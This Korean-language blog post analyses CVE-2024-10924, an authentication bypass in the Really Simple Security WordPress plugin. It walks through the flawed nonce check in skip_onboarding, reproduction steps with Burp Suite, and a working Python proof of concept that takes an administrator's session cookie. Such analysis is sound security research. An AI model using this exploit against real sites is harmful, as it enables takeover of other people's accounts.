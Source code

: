 ```yaml
---
title: "[CVE-2024-10924] 취약점 분석 보고서"
description: "Really Simple Security plugin 9.0.0 ~ 9.1.1.1 버전에서 발생하는 인증 우회 취약점"
author: khh
date: 2024-12-10 19:30:00 +0900
categories: [One-Day 분석, WordPress]
tags: [빡공팟, 콘테스트 네뷸라, WordPress, CVE, Authentication Bypass, Really Simple Security Plugin, CVE-2024-10924]
image: assets/img/wordpress-thumbnail.png
exclude_img: true
---
```


# 개요

Really Simple plugin 9.0.0 ~ 9.1.1.1버전에서 발생하는 인증 우회 취약점이다.

이 문제는 2단계 인증이 활성화되어 있는 경우 인증되지 않은 공격자가 임의 계정으로 로그인할 수 있다.

# 분석

이 취약점은 2단계 인증을 활성화한 사이트에게만 영향을 미친다.

2단계 인증 REST API 작업에서 사용되는 'check_login_and_get_user’ 함수에서 부적절한 검증 오류로 발생한다.

really-simple-ssl\security\wordpress\two-fa\class-rsssl-two-factor-on-board-api.php

```php
	/**
	 * Skips the onboarding process for the user.
	 *
	 * @param WP_REST_Request $request The REST request object.
	 *
	 * @return WP_REST_Response The REST response object.
	 */
	public function skip_onboarding( WP_REST_Request $request ): WP_REST_Response {
		$parameters = new Rsssl_Request_Parameters( $request );
		// As a double we check the user_id with the login nonce.
		$user = $this->check_login_and_get_user( (int)$parameters->user_id, $parameters->login_nonce );
		return $this->authenticate_and_redirect( $parameters->user_id, $parameters->redirect_to );
	}
```

Rsssl_Two_Factor_On_Board_Api 클래스 내의 skip_onboarding 함수를 사용하여 REST API를 통한 인증을 처리하고 있다.

check_login_and_get_user함수로 user_id와 login_nonce 매개변수를 사용하여 사용자를 검증한다.

really-simple-ssl\security\wordpress\two-fa\class-rsssl-two-factor-on-board-api.php

```php
	/**
	 * Verifies a login nonce, gets user by the user id, and returns an error response if any steps fail.
	 *
	 * @param int    $user_id The user ID.
	 * @param string $login_nonce The login nonce.
	 *
	 * @return WP_User|WP_REST_Response
	 */
	private function check_login_and_get_user( int $user_id, string $login_nonce ) {
		if ( ! Rsssl_Two_Fa_Authentication::verify_login_nonce( $user_id, $login_nonce ) ) {
			return new WP_REST_Response( array( 'error' => 'Invalid login nonce' ), 403 );
		}

		/**
		 * Get the user by the user ID.
		 *
		 * @var WP_User $user
		 */
		$user = get_user_by( 'id', $user_id );
		return $user;
	}
```

취약점은 skip_onboarding 함수에서 발생한다. check_login_and_get_user함수에서 잘못된 nonce 값을 전달할 경우 WP_REST_Response 오류를 반환하지만, 반환된 후에 skip_onboarding 함수 내에서 오류를 적절하게 처리하지 않아 유효하지 않은 nonce의 경우에도 함수 처리가 계속되어, 요청에서 전달된 사용자 ID를 기반으로 사용자를 인증하는 authenticate_and_redirect() 를 호출한다. 이 과정에서 사용자의 신원이 검증되지 않았음에도 불구하고 인증이 이루어진다. 
결국 공격자는 인증을 우회해 임의의 계정에 접근할 수 있다.

# Exploit

![image.png](assets/posts/one-day/2024-12-10/image-001.png)

취약한 Really simple plugin을 설치하고 Security 탭 Settings로 들어가준다.

![image.png](assets/posts/one-day/2024-12-10/image-002.png)

![image.png](assets/posts/one-day/2024-12-10/image-003.png)

Login Protection 에서 “Enable Two-Factor Authentication”을 활성화 시켜주고, 그 밑에서 이메일 인증도 활성화 시켜준다.

![image.png](assets/posts/one-day/2024-12-10/image-004.png)

계정 정보를 입력하고, burp suite로 패킷을 캡처한다.

![image.png](assets/posts/one-day/2024-12-10/image-005.png)

그리고 skip_onboarding 함수에 잘못된 nonce값을 보내면 user_id에 대한 쿠키를 반환한다.

![image.png](assets/posts/one-day/2024-12-10/image-006.png)

해당 쿠키를 복사해 아까 첫 번째로 캡처한 패킷에 쿠키를 붙여넣는다.

이 상태로 요청을 보내면 2단계 인증을 우회해 로그인이 된다.

![image.png](assets/posts/one-day/2024-12-10/image-007.png)

# POC

```python
#!/usr/bin/env python3
import requests
import argparse
import logging

def get_cookie(url):
    logging.basicConfig(level=logging.DEBUG)
    user_id = 1
    endpoint = f"{url}?rest_route=/reallysimplessl/v1/two_fa/skip_onboarding"
    
    print(f"request url: {endpoint}")
    
    headers = {
            "Content-Type": "application/json",
            "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36",
    }
    
    body = {
            "user_id": int(user_id),
            "login_nonce": "133333337",
            "redirect_to": "/wp-admin/"
    }

    logging.debug(f"Body: {body}")
    
    try:
        res = requests.post(endpoint, headers=headers, json=body, verify=False)
        logging.info(f"status_code: {res.status_code}")
    
    except Exception as e:
        logging.fatal("Error contact to target url")
        return

    logging.info(f"Cookie: {res.headers["Set-Cookie"]}")

def main():
    parser = argparse.ArgumentParser(description='CVE-2024-10924')

    parser.add_argument("-t", "--targeturl", help='[targeturl]', required=True)

    args = parser.parse_args()
    get_cookie(args.targeturl)

if __name__=="__main__":
    main()
```

![image.png](assets/posts/one-day/2024-12-10/image-008.png)